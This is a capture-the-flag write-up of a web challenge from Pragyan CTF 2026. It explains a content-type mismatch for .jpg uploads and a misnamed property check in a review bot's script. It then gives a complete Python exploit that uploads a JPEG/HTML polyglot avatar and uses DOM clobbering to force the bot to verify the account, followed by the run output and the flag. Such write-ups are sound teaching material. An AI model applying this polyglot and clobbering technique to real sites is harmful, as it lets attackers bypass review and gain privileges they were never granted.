

# PictureThis — Pragyan CTF 2026

## Challenge Data

| Field       | Value                                    |
|-------------|------------------------------------------|
| Category    | Web                                      |
| Difficulty  | Medium                                   |
| Solves      | —                                        |
| Points      | —                                        |
| Connection  | `https://picture.ctf.prgy.in`            |
| Files       | `source.zip` (Node.js + Puppeteer)       |
| Flag        | `p_ctf{i_M!ss#d_Th#_JPG_5f899f05}`      |

## Description

> Welcome to our social media platform. Anyone can sign up and create a profile, but only verified users are eligible for the gift. Profiles are reviewed by automated bots before verification. Can you get yourself verified and claim the gift?

## Reconnaissance

```bash
# Explore the platform
curl -sk https://picture.ctf.prgy.in/ | grep -oP 'href="[^"]*"'
# → /profile, /verify, /login, /register, /logout

# Register, login, view profile
curl -sk https://picture.ctf.prgy.in/register -X POST -d 'username=test&password=test'
curl -sk https://picture.ctf.prgy.in/login -X POST -d 'username=test&password=test' -c cookies.txt

# Check headers and CSP
curl -sk -v https://picture.ctf.prgy.in/ 2>&1 | grep -i content-security
# → script-src 'self'; img-src 'self' data:; ...

# Request verification without avatar → "rejected"
curl -sk https://picture.ctf.prgy.in/verify -X POST -b cookies.txt
```

Initial observations:
- Node.js platform (Express) with sessions, uploadable avatars and bot verification system
- Strict CSP: `script-src 'self'` — no inline scripts
- The bot (Puppeteer) visits the user's avatar to decide whether to verify or reject

## Analysis

### Verification flow (`verify.js` → `bot-pool.js` → `admin-helper.js` → `admin.js`)

1. User requests verification (`POST /verify`)
2. Puppeteer bot visits `http://localhost:3000/_image/{avatar}?uid={uid}` with `admin` cookie
3. The bot injects `<script src="/admin-helper.js">` into the visited page
4. `admin-helper.js` creates a form with checkbox `action=verify` and a submit
5. After 2 seconds, the bot clicks submit
6. The form sends `POST /admin/reviews/{uid}` with `action=verify` or `action=reject`
7. If `action=verify`, the server updates `verified=1` in the DB

### Vulnerable code 1 — CDN extension mismatch (`cdn.js`)

```javascript
// cdn.js — Determines content-type by URL extension
let ct = "text/html";                         // ← DEFAULT: text/html
const ext = path.extname(req.path);

if (ext === ".png") ct = "image/png";
else if (ext === ".jpeg") ct = "image/jpeg";  // ← Only recognizes .jpeg
else if (ext === ".webp") ct = "image/webp";
// .jpg NOT here → falls to default text/html

res.set("content-type", ct);
res.sendFile(path.resolve(fullPath));
```

```javascript
// helpers.js — validateImage() saves JPEG as .jpg
case "image/jpeg":
case "image/jpg":
    return [true, ".jpg"];  // ← Saves .jpg, NOT .jpeg
```

**Discrepancy:** Validation saves `uuid.jpg`, but CDN only recognizes `.jpeg`. Result: JPEGs are served as `text/html`.

### Vulnerable code 2 — DOM Clobbering (`admin-helper.js`)

```javascript
// admin-helper.js — Bot decision logic
if (!window.config) {
    window.config = {
        adminCanVerify: false   // ← Defines "adminCanVerify"
    }
}

// ...
if (!window.config.canAdminVerify) {   // ← Checks "canAdminVerify" (different!)
    action = "reject"
}
```

- The object defines `adminCanVerify` but the check reads `canAdminVerify`
- `canAdminVerify` doesn't exist in the object → always `undefined` → always rejects
- **But** if `window.config` already exists when the script loads, the `if (!window.config)` doesn't overwrite it

## Vulnerability

- **Type**: JPEG polyglot + DOM Clobbering
- **Root cause**:
  1. `cdn.js` doesn't map `.jpg` to `image/jpeg` (only `.jpeg`) → `.jpg` files served as `text/html`
  2. `admin-helper.js` checks `window.config.canAdminVerify` which is controllable via DOM Clobbering
- **Impact**: An attacker can force the bot to verify their profile, obtaining the flag

## Exploitation

### Strategy

1. Create a **JPEG polyglot**: valid JPEG (passes `fileTypeFromFile`) with HTML at the end
2. The HTML contains `<form id="config"><input name="canAdminVerify">` for DOM Clobbering
3. Upload as avatar → saved as `uuid.jpg`
4. Request verification → bot visits `/_image/uuid.jpg` as `text/html`
5. DOM Clobbering predefines `window.config.canAdminVerify` as truthy
6. `admin-helper.js` sends `action=verify` instead of `reject`
7. Profile verified → flag visible in `/profile`

### Exploit

```python
#!/usr/bin/env python3
"""
PictureThis — Pragyan CTF 2026
Flag: p_ctf{i_M!ss#d_Th#_JPG_5f899f05}

Exploit: JPEG polyglot + DOM Clobbering
  - cdn.js recognizes .jpeg but NOT .jpg → JPEG served as text/html
  - admin-helper.js checks window.config.canAdminVerify → controllable via DOM
"""
import struct
import requests
import time
import re
import sys

URL = "https://picture.ctf.prgy.in"
USERNAME = f"exploit_{int(time.time())}"
PASSWORD = "Exploit1234!"

# ──────────────────────────────────────────────
# Step 1: Create JPEG polyglot with DOM Clobbering
# ──────────────────────────────────────────────

def build_polyglot():
    """Creates a valid JPEG (passes fileTypeFromFile) with HTML at the end."""
    # SOI (Start of Image)
    jpeg = b'\xff\xd8'

    # APP0 marker (JFIF)
    app0 = b'JFIF\x00\x01\x01\x00\x00\x01\x00\x01\x00\x00'
    jpeg += b'\xff\xe0' + struct.pack('>H', len(app0) + 2) + app0

    # DQT (Define Quantization Table)
    dqt = b'\x00' + b'\x01' * 64
    jpeg += b'\xff\xdb' + struct.pack('>H', len(dqt) + 2) + dqt

    # SOF0 (Start of Frame — 1x1 pixel, 1 component)
    sof = b'\x08\x00\x01\x00\x01\x01\x01\x11\x00'
    jpeg += b'\xff\xc0' + struct.pack('>H', len(sof) + 2) + sof

    # DHT (Define Huffman Table — empty table)
    dht = b'\x00' + b'\x00' * 16 + b'\x00'
    jpeg += b'\xff\xc4' + struct.pack('>H', len(dht) + 2) + dht

    # SOS (Start of Scan) + minimal data
    sos = b'\x01\x01\x00\x00\x3f\x00'
    jpeg += b'\xff\xda' + struct.pack('>H', len(sos) + 2) + sos
    jpeg += b'\x7f\x00'

    # EOI (End of Image)
    jpeg += b'\xff\xd9'

    # HTML for DOM Clobbering (after JPEG)
    # <form id="config"> → window.config = <form> (truthy)
    # <input name="canAdminVerify"> → window.config.canAdminVerify = <input> (truthy)
    html = b'\n<html><body>'
    html += b'<form id="config"><input name="canAdminVerify" value="1"></form>'
    html += b'</body></html>'

    return jpeg + html

# ──────────────────────────────────────────────
# Step 2: Register, login, upload avatar
# ──────────────────────────────────────────────

s = requests.Session()
s.verify = False

# Suppress SSL warnings
import urllib3
urllib3.disable_warnings()

print(f"[*] Registering user: {USERNAME}")
r = s.post(f"{URL}/register", data={"username": USERNAME, "password": PASSWORD})

print("[*] Login...")
r = s.post(f"{URL}/login", data={"username": USERNAME, "password": PASSWORD})

print("[*] Generating JPEG polyglot with DOM Clobbering...")
polyglot = build_polyglot()
print(f"    Size: {len(polyglot)} bytes")

print("[*] Uploading polyglot avatar...")
r = s.post(f"{URL}/profile",
           data={"display_name": "Polyglot"},
           files={"avatar": ("polyglot.jpg", polyglot, "image/jpeg")})

# Verify avatar was saved as .jpg
r = s.get(f"{URL}/profile")
m = re.search(r'src="/_image/([^"]+\.jpg)"', r.text)
if not m:
    print("[!] ERROR: Avatar not saved as .jpg")
    sys.exit(1)

avatar_name = m.group(1)
print(f"[+] Avatar saved: {avatar_name}")

# Check content-type
r = s.head(f"{URL}/_image/{avatar_name}")
ct = r.headers.get("content-type", "")
print(f"[*] Avatar Content-Type: {ct}")
if "text/html" not in ct:
    print("[!] WARNING: Not served as text/html — exploit might fail")

# ──────────────────────────────────────────────
# Step 3: Request verification
# ──────────────────────────────────────────────

print("[*] Requesting verification (bot will visit avatar)...")
r = s.post(f"{URL}/verify")

print("[*] Waiting 12 seconds for bot to process...")
time.sleep(12)

# ──────────────────────────────────────────────
# Step 4: Collect the flag
# ──────────────────────────────────────────────

r = s.get(f"{URL}/profile")

flag_match = re.search(r'p_ctf\{[^}]+\}', r.text)
if flag_match:
    flag = flag_match.group(0)
    print(f"\n[+] FLAG FOUND!")
    print(f"[+] {flag}")
else:
    # Check status
    if "Verified" in r.text:
        print("[+] User verified, but flag not found in HTML")
        print("[*] Searching in HTML...")
        for line in r.text.split('\n'):
            if 'flag' in line.lower() or 'ctf' in line.lower():
                print(f"    {line.strip()}")
    else:
        print("[!] Not verified. Check reviews:")
        r2 = s.get(f"{URL}/verify")
        reviews = re.findall(r'<li[^>]*>(.*?)</li>', r2.text)
        for rev in reviews:
            print(f"    {rev}")
```

### Execution

```
$ python3 solve.py
[*] Registering user: exploit_1739006389
[*] Login...
[*] Generating JPEG polyglot with DOM Clobbering...
    Size: 302 bytes
[*] Uploading polyglot avatar...
[+] Avatar saved: 5ac3fc0d-c111-467c-b573-5b5a8e1762af.jpg
[*] Avatar Content-Type: text/html; charset=utf-8
[*] Requesting verification (bot will visit avatar)...
[*] Waiting 12 seconds for bot to process...

[+] FLAG FOUND!
[+] p_ctf{i_M!ss#d_Th#_JPG_5f899f05}
```

## Flag

```
p_ctf{i_M!ss#d_Th#_JPG_5f899f05}
```

## Lessons Learned

- **Extension mismatch** between validation and CDN: `validateImage()` saves `.jpg` but `cdn.js` only recognizes `.jpeg` → default content-type `text/html`. Always verify that all layers handle the same extensions
- **DOM Clobbering** remains effective when CSP blocks inline scripts: `<form id="X"><input name="Y">` creates `window.X.Y` as truthy DOM element, without needing JavaScript
- **JPEG polyglot**: After the EOI marker (`0xFFD9`), any additional data is ignored by JPEG parsers but interpreted by the browser if served as `text/html`
- **Intentional name discrepancy** (`adminCanVerify` vs `canAdminVerify`): the bot code always rejects by default, but the actual property checked is externally controllable
- The flag confirms it: "I missed the JPG" — the `.jpg` extension forgotten in the CDN was the key

---

## PoC

### Exploit Execution



*Screenshot showing successful execution of the exploit combining JPEG polyglot and DOM Clobbering to obtain the flag.*
